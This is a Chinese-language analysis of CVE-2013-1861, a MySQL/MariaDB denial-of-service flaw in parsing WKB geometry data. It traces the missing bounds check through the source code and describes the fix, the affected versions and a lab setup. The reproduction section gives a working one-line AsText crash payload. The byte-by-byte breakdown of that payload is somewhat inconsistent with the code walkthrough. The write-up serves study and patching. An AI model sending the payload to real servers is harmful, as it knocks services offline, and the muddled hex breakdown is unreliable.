



# CVE-2013-1861 CWE-None MySQL DoS

## 漏洞背景

- **MySQL：** 一款广受欢迎的开源关系型数据库管理系统 (RDBMS)，以其可靠性、高性能和易用性而闻名。作为 LAMP (Linux, Apache, MySQL, PHP/Perl/Python) 技术栈的核心组件，它广泛应用于各种规模的应用程序和网站，从小型个人项目到大型企业级解决方案。MySQL 使用结构化查询语言 (SQL) 进行数据管理和操作，支持多种存储引擎以适应不同的性能和功能需求，并因其庞大的社区支持和丰富的文档资源而备受开发者青睐。
- **WKB (Well-Known Binary)** 是一种用于在数据库中紧凑表示几何对象的二进制格式。例如，一个 `LineString`（线串）的 WKB 表示通常会包含以下部分：
  - 字节序 (1 字节)：指明是大端还是小端。
  - WKB 类型 (4 字节)：一个整数，代表几何类型（如 `LineString`、`Polygon` 等）。
  - 点数量 `num_points` (4 字节)：一个整数，声明该线串包含多少个点。
  - 点坐标序列：连续存储每个点的 X 和 Y 坐标（通常每个坐标是 8 字节的双精度浮点数）。

## 漏洞原理

 MariaDB 和 Oracle MySQL 服务器在处理几何数据 (Geometric Data) 的 WKB (Well-Known Binary) 二进制表示时存在缺陷。当服务器接收到一个特制的 WKB 数据（例如，声明了包含超乎寻常数量的点，或者WKB数据本身格式错误、长度不足）时，由于未能进行充分和正确的验证及处理，会引发内部错误（特别是“数值计算错误”），最终导致数据库服务器进程崩溃，形成拒绝服务 (Denial of Service, DoS)

## 漏洞定位

分析 MySQL 5.5.23 的源码

1. 当执行到 AsText() 函数时，会调用 Item_func_as_wkt::val_str_ascii 方法来处理参数并生成结果。在 sql\item_geofunc.cc 文件，第 **120** 行`val_str_ascii`函数，首先会通过 `args[0]->val_str(&arg_val)` 获取参数的字符串形式，之后调用 `Geometry::construct` 方法构造几何对象。

   ```c
   String *Item_func_as_wkt::val_str_ascii(String *str)
   {
     DBUG_ASSERT(fixed == 1);
     String arg_val;
     String *swkb= args[0]->val_str(&arg_val);  // 获取参数的字符串形式
     Geometry_buffer buffer;
     Geometry *geom= NULL;
     const char *dummy;
   
     if ((null_value=
          (args[0]->null_value ||
   	!(geom= Geometry::construct(&buffer, swkb->ptr(), swkb->length())))))  // 构造几何对象
       return 0;
   
     str->length(0);
     if ((null_value= geom->as_wkt(str, &dummy)))  // 将几何对象转换为 WKT 格式
       return 0;
   
     return str;
   }
   ```

2. 在 sql\spatial.cc 文件第 **141** 行，`Geometry::construct()`函数用于从 WKB 数据中读取 geometry type，并构造出对应的 Geometry 子类对象，设置数据指针 `m_data`。会在第 **147** 行检查参数的数据长度是否足够，至少应该包含 `SRID_SIZE`（4 字节用于存储空间参考标识符）加上 `WKB_HEADER_SIZE`（1 字节的字节顺序标志和 4 字节的几何类型标识）。

   ```c
   Geometry *Geometry::construct(Geometry_buffer *buffer,
                                 const char *data, uint32 data_len)
   {
     uint32 geom_type;
     Geometry *result;
   
   // *** 147 行 ****** 检查参数的数据长度 **********************************************
     if (data_len < SRID_SIZE + WKB_HEADER_SIZE)   // < 4 + (1 + 4)
       return NULL;
     /* + 1 to skip the byte order (stored in position SRID_SIZE). */
     geom_type= uint4korr(data + SRID_SIZE + 1);  // 读取类型，如 Polygon
     if (!(result= create_by_typeid(buffer, (int) geom_type)))  // 创建对象
       return NULL;
     result->m_data= data+ SRID_SIZE + WKB_HEADER_SIZE;  // 指向 WKB 数据
     result->m_data_end= data + data_len;
     return result;
   }
   ```

3. 在  sql\spatial.cc 文件第 **530** 行，在执行 `AsText` 函数时，如果几何对象是 `LineString` 类型，会调用`Gis_line_string::get_data_as_wkt`函数将 `LineString` 对象转为文本（WKT），核心步骤是读取点数并遍历点。但是在 **541** 行，调用 `no_data` 函数检查点数字段。

   之后在第 **548** 行直接调用`get_point`函数来解析双精度浮点数，其中的 data 数据来自 `construct`的`m_data`。

   ```c
   bool Gis_line_string::get_data_as_wkt(String *txt, const char **end) const
   {
     uint32 n_points;
     const char *data= m_data;
   
     if (no_data(data, 4))
       return 1;
     n_points= uint4korr(data);  // 读取点数
     data += 4;
   
     if (n_points < 1 ||
   // *** 541 行 ****** 检查点数字段 ***************************************************
         no_data(data, SIZEOF_STORED_DOUBLE * 2 * n_points) ||
         txt->reserve(((MAX_DIGITS_IN_DOUBLE + 1)*2 + 1) * n_points))
       return 1;
   
     while (n_points--)
     {
       double x, y;
   // *** 548 行 ****** 解析双精度浮点数 ************************************************
       get_point(&x, &y, data);  // // 解析双精度浮点数，读取两个 double（共 16 字节）
       data+= SIZEOF_STORED_DOUBLE * 2;
       txt->qs_append(x);
       txt->qs_append(' ');
       txt->qs_append(y);
       txt->qs_append(',');
     }
     txt->length(txt->length() - 1);		// Remove end ','
     *end= data;
     return 0;
   }
   ```

   在 sql\spatial.h 文件第 **324** 行， `no_data` 函数只检查了点数字段是否存在（即检查是否有 4 字节的数据用于存储点数），但**没有进一步验证剩余的数据是否足够容纳所有点的坐标数据**。这是**漏洞点**所在。

   ```c
   inline bool no_data(const char *cur_data, uint32 data_amount) const
   {
   	return (cur_data + data_amount > m_data_end);
   }
   ```

4. 在`Gis_line_string::get_data_as_wkt`函数的第 108 行，`get_point`函数，如果 `data` 越界，这里会在非法地址处读取 double 值导致内存访问越界、崩溃或拒绝服务。

   ```c
   static void get_point(double *x, double *y, const char *data)
   {
     float8get(*x, data);
     float8get(*y, data + SIZEOF_STORED_DOUBLE);
   }
   ```

## 漏洞修复

`Gis_line_string::get_data_as_wkt`函数的第 541 行，替换`no_data`引入了 `not_enough_points` 函数来验证剩余的数据是否足够容纳所有点的坐标数据。

```c
if (n_points < 1 ||
    not_enough_points(data, n_points) ||
    txt->reserve(((MAX_DIGITS_IN_DOUBLE + 1)*2 + 1) * n_points))
  return 1;
```

## 影响版本

**MariaDB**：

- 5.5.x 版本低于 5.5.30
- 5.3.x 版本低于 5.3.13
- 5.2.x 版本低于 5.2.15
- 5.1.x 版本低于 5.1.68

**Oracle MySQL**：

- 5.1.69 及更早版本
- 5.5.31 及更早版本
- 5.6.11 及更早版本

## 环境搭建

启动 Docker 环境，MySQL 版本为 5.5.23。管理员用户为 root，密码为 12345。同时创建了一个普通用户 testuser，密码为 testpwd，其具有一个默认数据库 test，用于测试目的。


## 漏洞复现

进入容器命令行，连接 MySQL 并执行 PoC 代码，可以看到MySQL 服务器进程在处理该查询时意外终止（崩溃）了。

```sql
select astext(0x0100000000030000000100000000000010);
```

由于 Docker 环境以 mysqld_safe 启动 MySQL，确保了当 MySQL 服务器进程 (`mysqld`) 因漏洞或其他原因崩溃时，会被 `mysqld_safe` 自动尝试重启。也就是在 Docker 容器中复现漏洞导致服务器崩溃后，短时间内又能重新连接上。



容器外：

```bash
mysql -u root -p -h 127.0.0.1 -P 3306 --skip-ssl
```



## PoC分析

PoC 代码通过连接数据库后自动发送 payload 查询请求，来实现 DoS。

执行 PoC 文件，输 MySQL 的 IP、端口、用户名、密码、数据库，之后可以看到 MySQL 崩溃断开连接：

```bash
python CVE-2013-1861-PoC.py
```



```sql
SELECT AsText(0x0100000000030000000100000000000010);
```

拆解十六进制：

- 01：byte order（小端）
- 00000003：geometry type = 3 表示几何类型为多边形（Polygon）
- 00000001：1 个 ring（外轮廓），但实际上多边形至少需要 4 个点（一个闭合的线性环）才能构成有效的多边形。
- 0000000000000010：声明了 1 个点，但实际提供的坐标数据不足。一个完整的点坐标应包含两个双精度浮点数（X 和 Y 坐标），每个双精度浮点数占用 8 字节。这里仅提供了部分字节，无法构成有效的坐标数据。

触发点：

- **不完整的几何数据** ：声明的几何类型为多边形（Polygon），但提供的数据不足以构成一个有效的多边形。多边形至少需要一个闭合的线性环，而线性环至少需要 4 个点（起点和终点重合）。
- **不匹配的点数和数据长度** ：点数字段声明了 1 个点，但实际提供的坐标数据长度不足，无法解析出有效的点坐标。

当服务器处理这条 PoC 代码时，会调用相关函数解析 WKB 数据。由于数据的不完整性和不一致性，服务器在处理过程中可能会超出实际数据范围，读取非法内存，从而引发崩溃。

## 参考链接

[MySQL / MariaDB - Geometry Query Denial of Service - Linux dos Exploit](https://www.exploit-db.com/exploits/38392)

[Comparing mysql-5.5.23...mysql-5.5.63 · mysql/mysql-server](https://github.com/mysql/mysql-server/compare/mysql-5.5.23...mysql-5.5.63)
